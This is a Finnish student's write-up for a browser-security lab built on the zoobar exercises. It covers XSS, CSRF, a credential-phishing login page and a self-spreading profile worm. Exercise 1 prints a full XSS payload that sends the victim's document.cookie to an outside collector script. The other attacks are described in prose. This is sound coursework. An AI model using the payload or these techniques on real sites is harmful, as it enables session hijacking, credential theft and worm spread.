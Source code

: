 # ITKST53 - Browser Security

**Tekijä:** Lauri Pimiä (lailpimi)

**Perustelut:** Jokaisen neljästä tehtävästä pitäisi toimia kuten pitää,
eli odottaisin saavani 3.5p. Jokaisen neljän tehtävän testit menevät läpi ja kuvat vastaavat mielestäni malleja (HUOM! Minun piti poistaa kuvat tästä paketista, koska ne tekivät tar.gz paketista liian ison palautusjärjestelmälle).

Tämän harjoituksen tehtävät olivat mielestäni huomattavasti mukavampia verrattuna edelliseen, jonka tein (JavaScript Sandboxing). Eniten aikaa minulla meni tehtävässä 3, muut tehtävät sujuivat aika nopeasti.

## Exercise 1
Tämä oli ylivoimaisesti nopein näistä tehtävistä. Vastauksessa (answer-1.txt) URL on koodattu, mutta dekoodasin sen parametriosion vielä tähän:
`
user="size=10><script>(new Image()).src='https://css.csail.mit.edu/6.858/2014/labs/sendmail.php?' + 'to=lailpimi@student.jyu.fi' + '&payload=' + encodeURIComponent(document.cookie) + '&random=' + Math.random();</script><style>.warning{display:none}</style><br
`
Hyödynnämme siis "user"-kentän haavoittuvuutta. Parametri "size" palauttaa kentän takaisin normaalin kokoiseksi, jonka jälkeen käytetään ohjeen emailskriptiä. HUOM! tämä skripti ei salli student.jyu.fi osoitteita, joten se palauttaa 403, mutta oikean payloadin voi tarkistaa esim. inspektorilla. URL:ssa on myös mukana koodia, joka piilottaa punaisen varoitustekstin. Lopussa oleva avonainen br-tagi piilottaa tuon "size=10 syötteen.

## Exercise 2
Tämä oli myös aika nopea tehdä, lähinnä aikaa kului iframen toiminnan muistelemisessa. Vastauksessa siis luon näkymättömän kopion oikeasta transfer-lomakkeesta valmiiksi täytettynä. Lomake suoritetaan sitten sivun latautumisen jälkeen iframessa, jotta osoitepalkki säilyy ohjeiden mukaisena.

## Exercise 3
Tässä tehtävässä minulla kesti pisimpään, koska en keksinyt miten saisin tiedon siitä, onko käyttäjä kirjautunut jo sisään. Tähän oli hieno vinkki tehtävänannossa, mutta onnistuin jotenkin ohittamaan sen :). Ehdin yrittämään jo kaikelaista mm. cookieilla kunnes huomasin kyseisen vinkin, jonka jälkeen löysin tuon zoobarjs-tiedoston koodia selaamalla. Itse tehtävän koodi oli helppo toteuttaa. Kopioin ensin login-sivun html:n, lisäsin tarkistuksen ja uudelleenohjauksen jos käyttäjä on jo kirjautunut ja sitten lisäsin onsubmit-funktion lomakkeeseen, joka keräsi tunnukset ja lähettää ne samaa email-skriptiä käyttäen. Minun piti tehdä yksi iframe, jotta sain skriptille lähetyspohjan. Itse kirjautumistiedot menevät myös "oikealle" lomakkeelle, joten käyttäjän "oikea" kirjautuminen tapahtuu automaattisesti.

## Exercise 4
Aloitin tämän luomalla ensin profiilielementin + tuon ohjeen '**Scanning for viruses...**'. Sitten lisäsin 1 zoobarin siirron johon uudelleenkäytin T2 koodia. Tällä kertaa luin myös ohjeet tarkemmin, joissa oli vinkattu miten iframella pääsee käsiksi iframen sisällä olevaan domiin. Tässä ratkaisussa on siis kaksi iframea, yksi zoobar siirrolle ja toinen profiilin siirrolle. Kopioin profiilin iframen ylitse asettamalla profiilisivun teksti-boxiin profiilielementin outerHTML-attribuutin tulosteen (joka käytännössä tuottaa html-version mutta tekstinä). Sitten kyseinen lomake vain lähetetään samaan tapaan kuten zoobarien siirrossa. Nyt uhrilla on identtinen profiili alkuperäisen hyökkääjän kanssa. Tehtävään kuului myös siirto-login piilotus ja zoobarien pitäminen aina 10:ssä, kun katsottiin saastunutta profiilia. Zoobarien määrään pystyi vaikuttamaan total muuttujalla, jonka perusteella alkuperäinen sivu sai zoobar tiedon.

## Challenge
En vastannut tähän tehtävään, koska se ei kuulunut 3.5p suoritukseen.